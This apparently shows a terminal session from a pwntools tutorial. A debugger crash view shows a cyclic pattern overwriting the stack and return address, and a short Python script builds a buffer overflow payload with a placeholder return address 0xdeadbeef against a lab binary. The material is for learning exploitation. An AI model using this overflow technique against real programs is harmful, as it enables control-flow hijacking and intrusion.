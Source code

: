 ```
─────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
Invalid address 0x6161616a










─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xff885ac0 ◂— 'kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
01:0004│     0xff885ac4 ◂— 'laaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
02:0008│     0xff885ac8 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
03:000c│     0xff885acc ◂— 'naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
04:0010│     0xff885ad0 ◂— 'oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
05:0014│     0xff885ad4 ◂— 'paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
06:0018│     0xff885ad8 ◂— 'qaaaraaasaaataaauaaavaaawaaaxaaayaaa'
07:001c│     0xff885adc ◂— 'raaasaaataaauaaavaaawaaaxaaayaaa'
───────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0 0x6161616a
   f 1 0x6161616b
   f 2 0x6161616c
   f 3 0x6161616d
   f 4 0x6161616e
   f 5 0x6161616f
   f 6 0x61616170
   f 7 0x61616171
──────────────────────────

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ nano pwn_cyclic.py
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ cat pwn_cyclic.py 
from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0xdeadbeef)

payload = padding + eip

print(payload)
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ python pwn_cyclic.py 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaaﾭ�

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ python pwn_cyclic.py > attack
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ cat attack 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaaﾭ�

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ gdb intro2pwn3 
GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
```